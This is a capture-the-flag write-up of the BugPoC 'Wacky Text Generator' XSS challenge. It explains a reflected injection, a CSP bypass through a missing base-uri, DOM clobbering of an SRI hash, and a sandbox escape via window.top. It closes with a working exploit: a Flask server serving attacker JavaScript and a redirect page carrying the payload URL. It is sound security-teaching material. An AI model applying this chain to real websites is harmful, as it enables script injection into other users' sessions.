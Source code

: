 # Bugpoc XSS Challenge

<center><img src="./Images/xss-1.jpg"/></center>

So we are given a website **Wacky Text Generator**. Its functionality is so simple, It'll just add some styles to the text that we enter. And we aim to trigger XSS on https://wacky.buggywebsite.com/..

<center><img src="./Images/xss-2.png"/></center>

This website will first replace/remove some characters from our input and loads into an iframe with some styles.


```js
	
	document.getElementById("txt").onkeyup = function(){
		this.value = this.value.replace(/[&*<>%]/g, '');
	};


	document.getElementById('btn').onclick = function(){
		val = document.getElementById('txt').value;
		document.getElementById('theIframe').src = '/frame.html?param='+val;
	};
```

So this looks impossible to execute javascript here in the main page,as we can't inject the tags. 
Then I thought of looking at the source code of frame.html which is loaded into an iframe, But It'll throw an error If u directly try to open frame.html.

```js
// verify we are in an iframe
	if (window.name == 'iframe') { .. }
	else {
		This page can only be viewed from an iframe.	
		}

```

So by setting `window.name` to `iframe` will open the page normally.

## Observation-1

- Our input is being reflected in two locations.One is sanitized and handled properly but the other is not.

URL -> `https://wacky.buggywebsite.com/frame.html?param=</title><h1>Welcome</h1>`

```html

		<title>
			</title><h1>Welcome</h1>
		</title>
                 .......
                 .......


		<div role="main">
			<p class="text" data-action="randomizr">&lt;/title&gt;&lt;h1&gt;Welcome&lt;/h1&gt;</p>
		</div>


```
<center><img src="./Images/xss-3.png"/></center>

Though our input is directly reflected in the website, we can't trigger alert because of CSP :(  . 


#### CSP POLICY:

```content-security-policy: script-src 'nonce-zhqdksxgbgxi' 'strict-dynamic'; frame-src 'self'; object-src 'none';```

### CSP Bypass

Ways to bypass (AFAIK):

- We can take advantage of the missing Base-URI policy.(https://csp-evaluator.withgoogle.com/)
  ```
   base-uri directive restricts the URLs which can be used in a document's <base> element. 
   If this value is absent, then any URI is allowed.

  ```
- As the server is using a nonce, we can brute force nonce character by character with CSS Selector.
      (https://sirdarckcat.blogspot.com/2016/12/how-to-bypass-csp-nonces-with-dom-xss.html)

I chose to go with the first idea to bypass CSP.

<center><img src="./Images/xss-4.png"></center>

## Observation-2

- Directly injecting `javascript: alert(1);` into the base tag will throw an error.So then I set up my ngrok server and added it to the base tag.

  `https://wacky.buggywebsite.com/frame.html?param=</title><base href="mywebsite.com">`

- Website will now  make a GET request to my server for `/files/analytics/js/frame-analytics.js` file. 

```js


	window.fileIntegrity = window.fileIntegrity || {
		'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
		'algorithm' : 'sha256',

	------>	'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',	<------

		'creationtime' : 1602687229
	}

	// verify we are in an iframe
	if (window.name == 'iframe') {

		// securely load the frame analytics code
		if (fileIntegrity.value) {

			// create a sandboxed iframe
			analyticsFrame = document.createElement('iframe');

	------>		analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');	<------

			analyticsFrame.setAttribute('class', 'invisible');
			document.body.appendChild(analyticsFrame);

			// securely add the analytics code into iframe
			script = document.createElement('script');

	------>		script.setAttribute('src', 'files/analytics/js/frame-analytics.js');		<------
	------>		script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);		<------

			script.setAttribute('crossorigin', 'anonymous');
			analyticsFrame.contentDocument.body.appendChild(script);

		}

	} else {   ...	}

```

- Though the file is being accessed by website,It won't gets included into the website.

```
Failed to find a valid digest in the 'integrity' attribute for resource 
'https://mywebsite.com/files/analytics/js/frame-analytics.js' with computed SHA-256 integrity 
'b3pcMvbma5BHZlKcTi3hBoHNc2EPbt/kbcXvw8hiSIA='. The resource has been blocked.
```

This is because of Subresource Integrity (<a href="https://developer.mozilla.org/en-US/docs/Web/Security/Subresource_Integrity">SRI</a>).
For every file there will be an unique digest.But in this case a digest is already declared. 


```js
		window.fileIntegrity = window.fileIntegrity || {
			'algorithm' : 'sha256',

		------>	'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',	<------
		}
```

For our file the digest is different.We need to find a way to tamper the value.So here comes the <a href="https://portswigger.net/web-security/dom-based/dom-clobbering">DOM clobbering</a>.

We can modify the `fileIntegrity` value with DOM clobbering.

`https://wacky.buggywebsite.com/frame.html?param=</title><base href="https://e036358270fe.ngrok.io"><button id="fileIntegrity" value="My Integrity Value">`.

So with this we can include our js file to the website.

## Observation-3

`Ignored call to 'alert()'. The document is sandboxed, and the 'allow-modals' keyword is not set.`

- Through our file loaded into the website we can't alert :(. This is because our js is loaded into a sandboxed iframe.
  ```
			// create a sandboxed iframe
			analyticsFrame = document.createElement('iframe');

	------>		analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');	<------

			analyticsFrame.setAttribute('class', 'invisible');
			document.body.appendChild(analyticsFrame);
  ```

- To use `alert`,`prompt`,`print`,`confirm` inside the sandboxed iframe we need to set `allow modals`dialogs.
  (https://googlechrome.github.io/samples/block-modal-dialogs-sandboxed-iframe/)

- So finally I thought of leaving iframe and pop an alert on main window (i.e, `window.top.document`) and boom It worked :).

<center><img src="./Images/xss.png"></center>

## Exploit 

### Server.py
```python
from flask import Flask,request,render_template


app = Flask(__name__)
app.debug =1 

@app.after_request
def add_security_headers(resp):

	resp.headers["Cache-Control"] = "no-cache, no-store, must-revalidate"
	resp.headers["Pragma"] = "no-cache"
	resp.headers["Expires"] = "0"
	resp.headers['Cache-Control'] = 'public, max-age=0'

	resp.headers["Access-Control-Allow-Origin"] = "*"

	return resp


@app.route("/files/analytics/js/frame-analytics.js")
def fetch():
	return 'window.top.alert(document.domain);'


@app.route("/")
def main():
	return render_template("main.html")

app.run()
```
### main.html

```html
<!DOCTYPE html>
<html>
<head>
	<title>Testing</title>
</head>
<body>
	<script type="text/javascript">
		window.name="iframe";
		window.location="https://wacky.buggywebsite.com/frame.html?param=%3C/title%3E%3Cbase%20href=%22https://myWebsite.com/%22%3E%3Cinput%20id=%27fileIntegrity%27%20name=%27fileIntegrity%27%20value=%222REYBEpWCfiE3FQSg0qjlIYCIhXz5XEqOj%2BbHIyGrgU=%22%3E"
	</script>

</body>
</html>
```
